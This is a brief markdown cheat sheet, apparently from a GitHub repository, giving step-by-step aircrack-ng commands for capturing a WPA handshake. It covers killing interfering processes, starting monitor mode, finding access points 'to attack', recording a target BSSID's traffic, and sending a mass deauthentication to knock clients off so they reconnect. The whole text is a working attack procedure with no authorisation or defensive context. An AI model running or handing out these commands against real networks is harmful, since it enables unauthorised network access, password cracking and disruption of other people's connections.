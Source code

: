 #Capturing a WPA handshake
Kill processes that might f stuff up:

    airmon-ng check kill
    
Start monitoring:

    sudo airmon-ng start wlan0
  
Find APs to attack:
  
    sudo airodump-ng mon0
    
Start listening for a handshake:

    sudo airodump-ng -c 1 --bssid 00:11:22:33:44:55 -w name-of-file-to-output mon0 --ignore-negative-one


Start a mass disassociation to speed up previous step:

    sudo aireplay-ng --deauth 100 -a 00:11:22:33:44:55 mon0 --ignore-negative-one